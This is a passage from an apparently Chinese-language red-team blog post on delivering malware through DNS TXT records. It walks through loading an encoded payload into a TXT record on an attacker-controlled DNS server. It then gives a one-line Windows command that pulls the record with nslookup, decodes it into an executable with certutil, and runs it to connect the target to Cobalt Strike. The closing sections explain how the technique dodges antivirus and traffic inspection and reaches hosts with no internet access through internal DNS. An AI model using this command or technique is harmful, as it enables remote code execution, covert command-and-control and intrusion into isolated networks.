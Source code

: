
所以需要把上面的字符串简单处理一下，这个简单写个 python 脚本就能解决，这里就不写了

![](https://gitee.com/fuli009/images/raw/master/public/20221214112055.png)

将这段字符复制到 `TXT` 记录的配置处

![](https://gitee.com/fuli009/images/raw/master/public/20221214112100.png)

重启 DNS 服务

    
    
    systemctl restart named  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221214112103.png)

### 目标主机一条命令加载并执行程序上线CS

    
    
    cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com 192.168.31.88 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" > ttt.txt && certutil -decode ttt.txt a.exe && cmd /c a.exe  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221214112104.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221214112105.png)

成功上线CS

## 0x07 为什么说这种思想有“跨时代”意义

吹牛成分较大，但是确确实实解决了一些问题，还可以引出很多的扩展的思考

### 1\. 写文件不怕负载均衡设备了

这个没啥说的，我们把一切变成了原子操作

### 2\. 一定程度上躲避杀软和流量检测

我们可以让目标向我们自己的DNS服务器去解析百度的域名，一定程度上会逃过流量检测

### 3\. 将不出网的主机变成了出网主机

这点很重要，很多目标单位重要系统虽然不出网，但是这些服务器配置了自己的内网DNS服务器，也就是说他们可以主动通过单位内部的DNS服务器连接外部，如果结合今天讨论的方法，我们可以
**让这个不出网的主机直接执行一个 DNS隧道的木马** 或者 **让木马做直接做端口复用** ，这样可以完成反向隧道或者正向连接，形成控制不出网主机的目的

下面我们针对目标系统可以执行命令，但是不出网，目标系统配置了它们单位自己的DNS，可以解析DNS这种情况做一下思路整理：

因为本身不出网，假设 `112.112.112.112` 是攻击者的DNS服务器 如果我们执行 `nslookup -qt=TXT baidu.com
112.112.112.112`
这种方式就执行不了了，因为服务器不出网，只能向自己内网配置好的那台DNS服务器发起请求。这个时候我们只能通过买一个域名，之后将域名解析的工作交给
`112.112.112.112` 来进行攻击
